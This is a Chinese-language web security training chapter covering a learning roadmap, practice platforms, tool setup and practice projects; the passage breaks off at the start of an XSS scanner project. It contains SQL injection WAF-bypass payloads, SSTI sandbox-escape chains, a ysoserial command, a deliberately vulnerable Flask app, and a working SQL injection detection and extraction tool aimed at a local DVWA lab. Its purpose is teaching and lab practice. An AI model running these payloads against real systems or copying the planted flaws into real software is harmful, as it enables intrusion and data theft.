



# 练习方法：Web安全实战训练指南

> "安全不是一门可以仅靠阅读掌握的学科——你必须亲手拆解和重建。"

Web安全学习的特殊性在于：漏洞原理可以在书本中学到，但发现漏洞的直觉只能通过大量练习来培养。本章提供一套完整的实战训练体系——从学习路径规划到靶场环境搭建，从练习项目到进阶方法论——帮助你从"知道漏洞"走向"能挖漏洞"。

## 14.36 学习路径规划

Web安全技能的成长不是线性的，而是一个螺旋上升的过程。以下三阶段路线图基于数千名安全从业者的成长经验总结，每个阶段都有明确的能力目标和检验标准。

### 14.36.1 第一阶段：基础构建（1-2个月）

**能力目标**：理解Web技术栈，能识别和复现常见漏洞。

**核心知识模块**：

**1. HTTP协议深度理解**

HTTP是Web安全的基石。你需要掌握的不仅是请求方法和状态码，而是协议层面的安全含义：

| HTTP概念 | 安全含义 | 练习要点 |
|----------|---------|---------|
| 请求方法 | GET参数暴露在URL中，POST在body中，PUT/DELETE可被用于文件操作 | 用Burp拦截同一功能的不同方法请求，观察差异 |
| 状态码 | 403/401的区别影响绕过策略，500可能泄露调试信息 | 故意触发各种状态码，观察响应差异 |
| Header字段 | Host头影响虚拟主机路由，Referer/Origin影响CSRF防护，Content-Type影响解析 | 修改Header观察应用行为变化 |
| Cookie属性 | HttpOnly防XSS窃取，Secure限制HTTPS传输，SameSite防CSRF | 逐一移除属性观察防护效果 |
| 编码机制 | URL编码、Base64、Unicode编码都可能被用于绕过 | 对同一payload尝试不同编码组合 |

**2. 前端安全基础**

```javascript
// 理解同源策略：这是浏览器安全的基石
// 协议+域名+端口 三者完全相同才视为同源

// 同源示例
https://example.com/app1  →  https://example.com/app2  ✓ 同源

// 不同源示例
https://example.com  →  http://example.com   ✗ 协议不同
https://example.com  →  https://evil.com    ✗ 域名不同
https://example.com:443 → https://example.com:8443 ✗ 端口不同

// DOM操作是XSS的载体——理解DOM就理解了XSS的攻击面
document.getElementById('output').innerHTML = userInput;  // 危险！
document.getElementById('output').textContent = userInput; // 安全
```

**3. 后端技术基础**

不需要精通所有后端语言，但要理解Web应用的通用架构：



攻击面存在于每个箭头连接处：客户端与服务器之间（XSS、CSRF）、服务器与数据库之间（SQL注入）、服务器与文件系统之间（文件上传/路径穿越）、服务器与外部API之间（SSRF）。

**练习任务清单**（按顺序完成）：

1. **Burp Suite入门**：拦截浏览器请求，修改参数，观察响应变化。重点练习Repeater和Intruder模块。
2. **DVWA全通关**（Low难度）：依次完成SQL Injection、XSS（Reflected/Stored）、CSRF、File Upload、Command Injection。每个挑战先手动尝试，再看提示。
3. **手动SQL注入**：不使用SQLMap，纯手工完成DVWA的SQL注入挑战。理解`UNION SELECT`、`ORDER BY`确定列数的原理。
4. **Cookie篡改实验**：用Burp修改Cookie中的用户ID，观察越权访问效果。

**阶段检验标准**：
- 能够在不看提示的情况下，手动完成DVWA Low难度的所有挑战
- 能够用Burp Suite独立拦截、修改、重放HTTP请求
- 能够向非技术人员解释SQL注入和XSS的区别及危害

### 14.36.2 第二阶段：技能深化（2-4个月）

**能力目标**：掌握主流漏洞的检测与利用技术，能使用自动化工具进行系统性测试。

**核心技能突破**：

**1. 绕过技术系统学习**

真实环境中的应用都有防护措施。你需要学会在有WAF、输入过滤、编码限制的情况下完成攻击：

```python
# WAF绕过思路示例：SQL注入关键字过滤绕过
# 目标绕过：过滤了 SELECT, UNION, FROM 等关键字

# 方法1：大小写混合
payload1 = "uNiOn SeLeCt 1,2,3--"

# 方法2：内联注释（MySQL特有）
payload2 = "/*!UNION*//*!SELECT*/ 1,2,3--"

# 方法3：双重关键字
# 如果WAF只做一次替换：UNION SELECT → 替换为空
# 构造：UNIUNIONON SELESELECTCT → 移除后变回 UNION SELECT
payload3 = "UNIUNIONON SELSELECTECT 1,2,3--"

# 方法4：编码绕过
# URL编码：%55%4E%49%4F%4E = UNION
# 双重URL编码：%2555%254E%2549%254F%254E
# Unicode编码：%u004e%u0055%u004e%u0049%u004f%u004e (部分数据库支持)

# 方法5：使用等价函数替代
# database() → @@datadir (获取数据库路径从而推断库名)
# group_concat() → concat_ws() 或使用 LIMIT 逐条提取
```

**2. 工具深度掌握**

| 工具 | 核心用途 | 必须掌握的参数 | 进阶用法 |
|------|---------|--------------|---------|
| SQLMap | SQL注入检测与利用 | `--dbs`, `--tables`, `--dump`, `--batch`, `--level 5`, `--risk 3` | Tamper脚本编写，自定义payload，WAF绕过 |
| Nuclei | 基于模板的漏洞扫描 | `-t`, `-severity`, `-tags`, `-rate-limit` | 自定义模板编写（YAML格式），自定义工作流 |
| Burp Suite | Web应用测试核心平台 | Proxy, Repeater, Intruder, Decoder, Comparer | 自定义扩展开发，Scanner优化，Collaborator使用 |
| Nmap/Nikto | 服务识别与基础扫描 | `-sV`, `-sC`, `-p-`, `-script vuln` | NSE脚本编写，扫描策略优化 |
| ffuf | 目录/参数模糊测试 | `-u`, `-w`, `-mc`, `-fc`, `-fs` | 自定义字典，递归扫描，响应过滤 |

**3. PortSwigger Web Security Academy深度练习**

这是公认的最好的Web安全免费学习平台。每个实验室都对应真实世界的攻击技术：



**练习方法论**（PortSwigger专用）：
- 每个实验室先独立尝试30分钟，不要看官方解题思路
- 失败后查看提示但不看完整解答，再尝试15分钟
- 仍然失败才看完整解答，但必须理解每一步的原理
- 完成后用笔记记录：payload、原理、变体、防御方法
- 一周后不看笔记重新做一次，检验记忆

**阶段检验标准**：
- PortSwigger SQL注入和XSS模块所有实验室独立完成
- 能够独立编写Nuclei模板检测特定漏洞
- 在HTB或TryHackMe上独立完成至少5个Web类Medium难度靶机
- 能够向开发者解释漏洞成因并提供修复代码

### 14.36.3 第三阶段：实战能力（4-6个月以上）

**能力目标**：具备独立进行Web应用安全评估的能力，能发现真实系统中的未知漏洞。

**核心能力构建**：

**1. 高级漏洞类型深入**

```python
# 服务端模板注入（SSTI）检测与利用
# 检测原理：输入数学表达式，观察是否被服务器计算

# Jinja2 (Python) 检测payload
detection_payloads = [
    "{{7*7}}",           # 返回49 → 确认SSTI存在
    "{{config}}",        # 泄露配置信息
    "{{''.__class__.__mro__[1].__subclasses__()}}",  # 列出所有可调用类
]

# SSTI攻击链（Jinja2沙箱逃逸）：
# 1. 找到可用的类：{{''.__class__.__mro__[2].__subclasses__()}}
# 2. 定位os模块：<class 'os._wrap_close'>
# 3. 执行命令：{{''.__class__.__mro__[2].__subclasses__()[X].__init__.__globals__['popen']('id').read()}}

# Freemarker (Java) 检测payload
# ${7*7} → 返回49
# <#assign ex="freemarker.template.utility.Execute"?new()> ${ex("id")}
```

```python
# Java反序列化漏洞理解
# 漏洞根源：ObjectInputStream.readObject() 不验证类来源

# 反序列化攻击链：
# 1. 识别：检查HTTP请求中的序列化数据特征
#    - Java序列化以 AC ED 00 05（十六进制）开头
#    - Base64编码后以 rO0AB 开头
#    - URL编码后以 %AC%ED%00%05 开头
# 2. 利用：使用ysoserial生成payload
#    java -jar ysoserial.jar CommonsCollections1 'id' | base64
# 3. 工具链：SerializationDumper分析，GadgetInspector找利用链
```

**2. 业务逻辑漏洞挖掘**

业务逻辑漏洞无法被自动化工具发现，这是高级安全测试的核心价值所在：

| 漏洞类型 | 检测思路 | 真实案例 |
|---------|---------|---------|
| 竞态条件 | 并发发送同一请求（如余额提现），观察是否能重复执行 | 某支付平台并发提现导致双倍到账 |
| 参数篡改 | 修改订单金额、商品ID、数量、优惠券ID等业务参数 | 修改price参数为0.01完成低价购买 |
| 流程绕过 | 跳过验证步骤直接访问后续接口（如跳过支付直接确认收货） | 直接调用"发货确认"接口绕过支付 |
| 权限越界 | 使用普通用户token访问管理员API，修改他人数据 | 修改URL中的用户ID访问他人订单 |
| 逻辑缺陷 | 利用业务规则漏洞（如优惠券可叠加使用、积分可负数兑换） | 退款时计算逻辑错误导致退款金额超过支付金额 |
| 信息泄露 | 错误消息、API响应、前端代码中的敏感信息 | API返回了其他用户的手机号和地址 |

**3. 代码审计能力**

```python
# Python代码审计关键模式（安全审查清单）

# 🔴 高危：命令注入
import os
os.system(f"ping {user_input}")        # 危险！
os.system("ping " + user_input)        # 危险！
subprocess.call(f"ping {user_input}", shell=True)  # 危险！
# ✅ 安全方案：
subprocess.run(["ping", "-c", "1", user_input], capture_output=True)

# 🔴 高危：SQL注入
cursor.execute(f"SELECT * FROM users WHERE id={user_id}")  # 危险！
cursor.execute("SELECT * FROM users WHERE id=" + user_id)  # 危险！
# ✅ 安全方案：
cursor.execute("SELECT * FROM users WHERE id=?", (user_id,))

# 🔴 高危：路径穿越
file_path = os.path.join(upload_dir, user_filename)  # 可能包含 ../
# ✅ 安全方案：
file_path = os.path.realpath(os.path.join(upload_dir, user_filename))
if not file_path.startswith(os.path.realpath(upload_dir)):
    raise ValueError("Invalid filename")

# 🟡 中危：硬编码密钥
API_KEY = "sk-1234567890abcdef"  # 代码泄露即密钥泄露
# ✅ 安全方案：使用环境变量或密钥管理服务
API_KEY = os.environ.get("API_KEY")

# 🟡 中危：不安全的反序列化
import pickle
data = pickle.loads(user_provided_bytes)  # 可执行任意代码
# ✅ 安全方案：使用json.loads()，或用 RestrictedUnpickler
```

**阶段检验标准**：
- 在HackerOne/Bugcrowd上成功提交至少1个有效漏洞报告
- 能够独立完成一个中型Web应用（50+页面）的安全评估
- 能够阅读并审计Python/Java/JavaScript代码中的安全问题
- 建立了个人的漏洞检测清单和自动化工作流

## 14.37 靶场环境推荐

靶场是安全练习的基础设施。好的靶场能模拟真实环境，让你在不触犯法律的前提下练习攻击技术。

### 14.37.1 在线靶场平台

| 平台 | 特点 | 适合阶段 | 费用 | 推荐理由 |
|------|------|---------|------|---------|
| PortSwigger Web Security Academy | 最系统的Web安全学习平台，每类漏洞有独立实验室 | 初-高级 | 免费 | OWASP Top 10全覆盖，自带学习材料，难度递进 |
| TryHackMe | 引导式学习路径，有详细的教程指引 | 初-中级 | 基础免费 | 适合零基础入门，社区活跃 |
| Hack The Box | 高质量靶机和挑战，模拟真实环境 | 中-高级 | 基础免费 | 靶机质量高，有退役靶机的官方Writeup |
| PentesterLab | 专注于Web安全，从基础到高级 | 初-高级 | 部分免费 | 每个练习都配有详细解释，适合深入学习 |
| OverTheWire Wargames | 经典的安全挑战游戏 | 初-中级 | 免费 | Bandit游戏是Linux和安全的绝佳入门 |
| HackThisSite | 经典Web安全挑战 | 初-中级 | 免费 | 历史悠久，挑战设计经典 |
| Root Me | 法国安全挑战平台，题目类型丰富 | 中-高级 | 免费 | 涵盖Web、加密、取证等多个领域 |
| CTFHub | 国内CTF练习平台，有技能树 | 初-中级 | 免费 | 中文界面，适合国内学习者 |

### 14.37.2 本地靶场环境部署

本地靶场的优势：离线可用、速度更快、可以随意破坏和修改、适合深度学习。

**一键部署靶场集群（Docker Compose）**：

```yaml
# docker-compose.yml - 一键部署完整靶场环境
version: '3.8'

services:
  # DVWA - 经典入门靶场
  dvwa:
    image: vulnerables/web-dvwa
    ports:
      - "8081:80"
    environment:
      - MYSQL_PASS=dvwa
    restart: unless-stopped

  # WebGoat - OWASP官方靶场（教学导向）
  webgoat:
    image: webgoat/webgoat
    ports:
      - "8082:8080"
    environment:
      - WEBGOAT_HOST=0.0.0.0
    restart: unless-stopped

  # Juice Shop - OWASP现代化靶场（100+挑战）
  juice-shop:
    image: bkimminich/juice-shop
    ports:
      - "8083:3000"
    restart: unless-stopped

  # bWAPP - 包含100+漏洞的靶场
  bwapp:
    image: raesene/bwapp
    ports:
      - "8084:80"
    restart: unless-stopped

  # SQLi-Labs - 专注SQL注入的靶场
  sqli-labs:
    image: acgpiano/sqli-labs
    ports:
      - "8085:80"
    restart: unless-stopped

  # XSS Game - Google XSS挑战
  # 注意：原版为在线服务，本地可用 community 版本
  # https://github.com/google/xss-game

  # Vulnerable-Flask-App - 自定义靶场（见14.39）
  # flask-vulnapp:
  #   build: ./flask-vulnapp
  #   ports:
  #     - "8086:5000
```

```bash
# 部署命令
# 创建目录并保存上面的docker-compose.yml
mkdir -p ~/security-lab && cd ~/security-lab

# 启动所有靶场
docker compose up -d

# 验证服务状态
docker compose ps

# 访问地址汇总：
# DVWA:       http://localhost:8081   (admin/password)
# WebGoat:    http://localhost:8082/WebGoat
# Juice Shop: http://localhost:8083
# bWAPP:      http://localhost:8084   (bee/bug)
# SQLi-Labs:  http://localhost:8085
```

**DVWA使用指南**（新手必做）：

```bash
# 第一步：安装后登录
# 访问 http://localhost:8081
# 默认账号：admin / password

# 第二步：重置数据库
# 登录后点击左侧 "Reset DB" → 点击 "Create / Reset Database"

# 第三步：设置安全级别
# 左侧菜单 "DVWA Security"
# 建议从 Low 开始，逐步提高到 Medium → High → Impossible

# 练习顺序建议（由易到难）：
# 1. SQL Injection（最经典，理解数据窃取）
# 2. XSS (Reflected) → XSS (Stored) → DOM XSS
# 3. CSRF（理解跨站请求伪造）
# 4. Command Injection（操作系统命令注入）
# 5. File Upload（文件上传漏洞）
# 6. File Inclusion（本地/远程文件包含）
# 7. Brute Force（暴力破解理解认证安全）
# 8. Insecure CAPTCHA（验证码绕过）

# 每个模块完成后，切换到 Impossible 级别查看安全实现
# 对比 Low 和 Impossible 的代码差异，理解如何防御
```

### 14.37.3 自建靶场进阶

当你完成所有预制靶场后，可以构建自定义靶场来针对性练习：

```python
# 自建Flask靶场 - 包含OWASP Top 10典型漏洞
# 文件：vulnapp/app.py
from flask import Flask, request, render_template_string, session, redirect, url_for, send_from_directory
import sqlite3
import os
import subprocess
import pickle
import base64

app = Flask(__name__)
app.secret_key = 'insecure-secret-key'  # A02:2021 加密失败

def get_db():
    conn = sqlite3.connect('vulnapp.db')
    conn.row_factory = sqlite3.Row
    return conn

@app.route('/search')
def search():
    """A03:2021 注入 - SQL注入漏洞"""
    keyword = request.args.get('q', '')
    conn = get_db()
    # 漏洞：字符串拼接构建SQL
    query = f"SELECT * FROM products WHERE name LIKE '%{keyword}%'"
    try:
        results = conn.execute(query).fetchall()
        return render_template_string(
            f'<h1>搜索结果: {keyword}</h1>'  # A03: 模板注入可能性
            f'<pre>{[dict(r) for r in results]}</pre>'
        )
    except Exception as e:
        return f'<pre>错误: {e}</pre>'  # A04: 不安全设计 - 错误信息泄露

@app.route('/ping')
def ping():
    """A03:2021 注入 - 命令注入漏洞"""
    host = request.args.get('host', '127.0.0.1')
    # 漏洞：直接拼接用户输入到系统命令
    result = subprocess.getoutput(f'ping -c 1 {host}')
    return f'<pre>{result}</pre>'

@app.route('/profile/<int:user_id>')
def profile(user_id):
    """A01:2021 访问控制失效 - IDOR漏洞"""
    # 漏洞：未验证当前用户是否有权限访问该user_id
    conn = get_db()
    user = conn.execute('SELECT * FROM users WHERE id=?', (user_id,)).fetchone()
    if user:
        return dict(user)  # 返回所有字段，包括密码哈希
    return 'User not found', 404

@app.route('/upload', methods=['POST'])
def upload():
    """A08:2021 软件和数据完整性故障 - 文件上传漏洞"""
    f = request.files.get('file')
    if f:
        # 漏洞：未验证文件类型、大小、内容
        f.save(os.path.join('uploads', f.filename))
        return f'文件已上传: {f.filename}'
    return '请选择文件'

@app.route('/deserialize', methods=['POST'])
def deserialize():
    """A08:2021 软件和数据完整性故障 - 反序列化漏洞"""
    data = request.form.get('data', '')
    # 漏洞：直接反序列化用户数据
    obj = pickle.loads(base64.b64decode(data))
    return f'反序列化结果: {obj}'

if __name__ == '__main__':
    # 初始化数据库
    conn = get_db()
    conn.execute('''CREATE TABLE IF NOT EXISTS products
                    (id INTEGER PRIMARY KEY, name TEXT, price REAL)''')
    conn.execute('''CREATE TABLE IF NOT EXISTS users
                    (id INTEGER PRIMARY KEY, username TEXT, password TEXT, role TEXT)''')
    conn.execute("INSERT OR IGNORE INTO users VALUES (1,'admin','admin123','admin')")
    conn.execute("INSERT OR IGNORE INTO users VALUES (2,'user','user123','user')")
    conn.commit()
    app.run(host='0.0.0.0', port=5000, debug=True)  # debug=True 也是漏洞
```

练习要求：找到所有漏洞后，逐一修复每个漏洞，并验证修复是否有效。

## 14.38 工具环境搭建

工欲善其事，必先利其器。Web安全测试需要一套完整的工具链。

### 14.38.1 Burp Suite核心配置

Burp Suite是Web安全测试的瑞士军刀，以下是正确的配置流程：

```bash
# 1. 下载安装
# 社区版（免费）：https://portswigger.net/burp/communitydownload
# 专业版（付费，推荐）：提供自动扫描、更好的爬虫、Collaborator等

# 2. 浏览器代理配置（推荐使用Firefox + FoxyProxy扩展）
# 安装 FoxyProxy 扩展后配置：
# 代理名称: Burp
# 代理地址: 127.0.0.1
# 代理端口: 8080
# 代理类型: HTTP

# 3. 安装Burp CA证书（拦截HTTPS流量的关键步骤）
# a. 启动Burp Suite，确保代理运行在 127.0.0.1:8080
# b. 浏览器配置好代理后访问 http://burp
# c. 点击 "CA Certificate" 下载证书文件
# d. Firefox: 设置 → 隐私与安全 → 证书 → 查看证书 → 导入
# e. 勾选 "信任由此CA标识的网站" → 确定

# 4. 必装扩展（Extender → BApp Store）
# - Autorize: 自动化权限测试（必装，发现越权漏洞的利器）
# - Param Miner: 隐藏参数发现
# - JSON Web Tokens: JWT分析和攻击
# - Logger++: 增强的请求日志
# - Hackvertor: 编码/解码转换
# - Active Scan++: 增强的主动扫描
```

**Burp Suite高效工作流**：

```text
1. Proxy（代理）→ 浏览器所有流量经过Burp
   ├── HTTP History: 查看所有请求，按关键词/状态码/类型过滤
   └── WebSockets History: WebSocket消息记录

2. Target（目标）→ 站点地图自动生成
   ├── Scope: 定义测试范围（只测试目标域名）
   └── Issue Definitions: 所有漏洞类型的定义参考

3. Repeater（重放器）→ 手动修改和重放请求
   ├── 修改参数 → 发送 → 分析响应
   └── 对比正常/恶意请求的响应差异

4. Intruder（入侵者）→ 自动化模糊测试
   ├── Sniper: 单点爆破（密码爆破、参数Fuzz）
   ├── Battering Ram: 所有位置用相同payload
   ├── Pitchfork: 一一对应（用户名-密码配对）
   └── Cluster Bomb: 全排列组合

5. Decoder（解码器）→ 编码/解码/哈希
   └── 支持URL、Base64、HTML、Hex、Gzip等
```

### 14.38.2 Kali Linux工具集与替代方案

```bash
# Kali Linux是安全测试的标准发行版，预装了200+安全工具
# 下载：https://www.kali.org/get-kali/

# 在VMware/VirtualBox中安装Kali
# 最低配置：2核CPU、4GB内存、40GB硬盘
# 推荐配置：4核CPU、8GB内存、80GB硬盘

# 如果不想安装完整Kali，可以在现有系统上按需安装工具：

# Ubuntu/Debian系统安装核心Web安全工具
sudo apt update && sudo apt install -y \
    nmap nikto dirb gobuster \
    sqlmap \
    hydra john hashcat \
    wfuzz ffuf \
    whatweb \
    curl wget \
    python3-pip

# pip安装Python安全工具
pip3 install --user \
    dirsearch \
    pwntools \
    impacket \
    requests \
    beautifulsoup4 \
    scrapy

# Go语言工具（性能更好的现代工具）
# ffuf - 快速Web模糊测试
go install github.com/ffuf/ffuf/v2@latest

# nuclei - 基于模板的漏洞扫描
go install -v github.com/projectdiscovery/nuclei/v3/cmd/nuclei@latest

# subfinder - 子域名发现
go install -v github.com/projectdiscovery/subfinder/v2/cmd/subfinder@latest

# httpx - HTTP探测
go install -v github.com/projectdiscovery/httpx/cmd/httpx@latest
```

### 14.38.3 浏览器安全测试扩展

```bash
# Firefox安全测试专用配置
# 推荐创建一个专门的安全测试Firefox Profile
# 确保测试流量和日常浏览隔离

# 必装扩展列表：
# 1. FoxyProxy - 代理快速切换（切换Burp/直连/其他代理）
# 2. Wappalyzer - 识别网站技术栈（框架、CMS、服务器版本）
# 3. HackTools - 内置常用payload和编码工具
# 4. HackBar - 快速编码解码和payload注入
# 5. Cookie-Editor - Cookie查看和编辑
# 6. User-Agent Switcher - 修改浏览器User-Agent

# Chrome开发者工具也是强大的安全分析工具：
# F12 → Network: 查看所有网络请求
# F12 → Console: 执行JavaScript
# F12 → Application: 查看Cookie、LocalStorage、SessionStorage
# F12 → Sources: 查看前端源码，设置JavaScript断点调试
```

### 14.38.4 自动化测试环境配置

```python
# 创建统一的安全测试Python环境
# 项目结构：
# ~/security-tools/
# ├── requirements.txt
# ├── tools/
# │   ├── sqli_tester.py
# │   ├── xss_scanner.py
# │   └── dir_scanner.py
# ├── wordlists/
# │   ├── directories.txt
# │   ├── params.txt
# │   └── payloads/
# ├── reports/
# └── notes/

# requirements.txt
"""
requests>=2.31.0
beautifulsoup4>=4.12.0
urllib3>=2.0.0
colorama>=0.4.6
rich>=13.0.0
aiohttp>=3.9.0
fake-useragent>=1.4.0
"""
```

```bash
# 常用字典资源
# SecLists - 最全面的安全测试字典集
# https://github.com/danielmiessler/SecLists
git clone https://github.com/danielmiessler/SecLists.git /opt/SecLists

# 关键字典路径：
# /opt/SecLists/Discovery/Web-Content/    → 目录/文件爆破
# /opt/SecLists/Fuzzing/                  → 漏洞Fuzz
# /opt/SecLists/Passwords/                → 密码字典
# /opt/SecLists/Usernames/               → 用户名字典
```

## 14.39 练习项目建议

以下三个项目由浅入深，每个项目都针对特定的安全技能。建议按顺序完成，每个项目花1-2周时间。

### 14.39.1 项目一：构建SQL注入测试工具

**目标**：深入理解SQL注入的原理和利用过程。手工实现比使用SQLMap能学到更多。

```python
"""
SQL注入测试工具 - 教学用途
功能：检测和利用SQL注入漏洞（仅用于授权测试）

学习要点：
1. 理解UNION注入的列数确定过程
2. 理解布尔盲注的逐字符提取原理
3. 理解时间盲注的延迟判断逻辑
4. 理解错误注入的信息泄露机制
"""

import requests
import string
import time
import sys
from urllib.parse import urljoin, quote


class SQLInjectionTester:
    """SQL注入检测与利用工具"""

    def __init__(self, url, param, method='GET', data=None, cookies=None):
        self.url = url
        self.param = param
        self.method = method.upper()
        self.data = data or {}
        self.cookies = cookies or {}
        self.session = requests.Session()
        self.session.cookies.update(self.cookies)
        self.session.headers.update({
            'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36'
        })

    def _send(self, payload):
        """发送带有payload的请求"""
        if self.method == 'GET':
            params = {self.param: payload}
            return self.session.get(self.url, params=params, timeout=10)
        else:
            post_data = self.data.copy()
            post_data[self.param] = payload
            return self.session.post(self.url, data=post_data, timeout=10)

    def _baseline(self):
        """获取正常请求的响应作为基准"""
        return self._send('test')

    # ---- 检测方法 ----

    def detect_error_based(self):
        """基于错误的注入检测"""
        print("[*] 检测基于错误的注入...")
        payloads = [
            "'",
            "\"",
            "' OR '1'='1",
            "' AND 1=CONVERT(int, @@version)--",  # MSSQL
            "' AND EXTRACTVALUE(1, CONCAT(0x7e, @@version))--",  # MySQL
            "' AND (SELECT 1 FROM(SELECT COUNT(*),CONCAT(@@version,FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)a)--",
        ]
        baseline = self._baseline()
        for payload in payloads:
            try:
                resp = self._send(payload)
                # 检查响应中是否包含数据库错误信息
                error_indicators = [
                    'sql syntax', 'mysql', 'sqlite', 'postgresql',
                    'ORA-', 'SQL Server', 'syntax error', 'unterminated',
                    'ODBC', 'JDBC', 'PDOException', 'pg_query'
                ]
                for indicator in error_indicators:
                    if indicator.lower() in resp.text.lower():
                        print(f"  [+] 发现错误注入点！payload: {payload}")
                        print(f"  [+] 错误指示器: {indicator}")
                        return True
            except requests.RequestException:
                continue
        print("  [-] 未检测到错误注入")
        return False

    def detect_boolean_based(self):
        """布尔盲注检测"""
        print("[*] 检测布尔盲注...")
        # 真条件和假条件的响应差异
        true_payload = "test' AND '1'='1"
        false_payload = "test' AND '1'='2"

        try:
            baseline = self._baseline()
            true_resp = self._send(true_payload)
            false_resp = self._send(false_payload)

            # 比较响应长度和内容
            if (len(true_resp.text) == len(baseline.text) and
                len(false_resp.text) != len(baseline.text)):
                print("  [+] 发现布尔盲注点！")
                print(f"  [+] 基准长度: {len(baseline.text)}, 真条件: {len(true_resp.text)}, 假条件: {len(false_resp.text)}")
                return True
        except requests.RequestException:
            pass
        print("  [-] 未检测到布尔盲注")
        return False

    def detect_time_based(self):
        """时间盲注检测"""
        print("[*] 检测时间盲注...")
        delay = 3
        payloads = [
            f"test' AND SLEEP({delay})--",
            f"test'; WAITFOR DELAY '0:0:{delay}'--",  # MSSQL
            f"test' AND (SELECT * FROM (SELECT(SLEEP({delay})))a)--",
        ]

        for payload in payloads:
            try:
                start = time.time()
                self._send(payload)
                elapsed = time.time() - start
                if elapsed >= delay * 0.9:  # 允许10%的误差
                    print(f"  [+] 发现时间盲注点！延迟: {elapsed:.2f}秒")
                    return True
            except requests.RequestException:
                continue
        print("  [-] 未检测到时间盲注")
        return False

    # ---- 利用方法 ----

    def find_column_count(self, max_columns=20):
        """UNION注入：确定列数（ORDER BY方法）"""
        print("[*] 确定SELECT查询的列数...")
        for i in range(1, max_columns + 1):
            payload = f"test' ORDER BY {i}--"
            try:
                resp = self._send(payload)
                if 'error' in resp.text.lower() or resp.status_code == 500:
                    print(f"  [+] 列数: {i - 1}")
                    return i - 1
            except requests.RequestException:
                return i - 1
        print(f"  [-] 未确定列数（超过{max_columns}列）")
        return None

    def union_extract(self, column_count, query, position=1):
        """UNION注入：提取数据"""
        nulls = ','.join(['NULL'] * column_count)
        # 将目标列位置替换为子查询
        nulls_list = nulls.split(',')
        nulls_list[position - 1] = f'({query})'
        payload = f"test' UNION SELECT {','.join(nulls_list)}--"
        resp = self._send(payload)
        return resp.text

    def boolean_extract(self, query, max_length=100, charset=None):
        """布尔盲注：逐字符提取数据"""
        if charset is None:
            charset = string.ascii_lowercase + string.digits + string.ascii_uppercase + '_.@-'

        print(f"[*] 布尔盲注提取数据: {query[:50]}...")
        result = []
        for i in range(1, max_length + 1):
            found = False
            for c in charset:
                # 逐字符ASCII比较
                payload = (
                    f"test' AND ASCII(SUBSTRING(({query}),{i},1))={ord(c)}--"
                )
                try:
                    resp = self._send(payload)
                    baseline_len = len(self._send("test' AND '1'='1").text)
                    if len(resp.text) == baseline_len:
                        result.append(c)
                        sys.stdout.write(c)
                        sys.stdout.flush()
                        found = True
                        break
                except requests.RequestException:
                    continue
            if not found:
                break
        print(f"\n  [+] 结果: {''.join(result)}")
        return ''.join(result)

    def time_extract(self, query, max_length=50, delay=2):
        """时间盲注：逐字符提取数据（最慢但最通用）"""
        charset = string.ascii_lowercase + string.digits + '_.'
        print(f"[*] 时间盲注提取数据（这很慢）: {query[:50]}...")
        result = []

        for i in range(1, max_length + 1):
            found = False
            for c in charset:
                payload = (
                    f"test' AND IF(ASCII(SUBSTRING(({query}),{i},1))={ord(c)},"
                    f"SLEEP({delay}),0)--"
                )
                try:
                    start = time.time()
                    self._send(payload)
                    elapsed = time.time() - start
                    if elapsed >= delay * 0.9:
                        result.append(c)
                        sys.stdout.write(c)
                        sys.stdout.flush()
                        found = True
                        break
                except requests.RequestException:
                    continue
            if not found:
                break
        print(f"\n  [+] 结果: {''.join(result)}")
        return ''.join(result)

    # ---- 完整测试流程 ----

    def full_scan(self):
        """执行完整的SQL注入扫描"""
        print(f"{'='*60}")
        print(f"目标: {self.url}")
        print(f"参数: {self.param}")
        print(f"方法: {self.method}")
        print(f"{'='*60}")

        results = {
            'error_based': self.detect_error_based(),
            'boolean_based': self.detect_boolean_based(),
            'time_based': self.detect_time_based(),
        }

        if any(results.values()):
            print(f"\n[+] 检测到SQL注入漏洞！类型: {[k for k, v in results.items() if v]}")
            # 如果是UNION注入，尝试提取数据
            if results['error_based']:
                col_count = self.find_column_count()
                if col_count:
                    print(f"\n[*] 尝试提取数据库版本...")
                    self.union_extract(col_count, '@@version')
        else:
            print("\n[-] 未检测到SQL注入漏洞")


# 使用示例
if __name__ == '__main__':
    # 测试DVWA的SQL注入模块
    # 注意：需要先登录获取Cookie
    tester = SQLInjectionTester(
        url='http://localhost:8081/vulnerabilities/sqli/',
        param='id',
        method='GET',
        cookies={'PHPSESSID': 'your-session-id', 'security': 'low'}
    )
    tester.full_scan()
```

### 14.39.2 项目二：开发XSS扫描器

**目标**：理解XSS的检测逻辑，包括反射型、存储型和DOM型XSS的检测方法。

```python
"""
XSS扫描器 - 教学用途
功能：检测反射型XSS和基本的存储型XSS

学习要点：
1. 理解XSS payload的构造原理
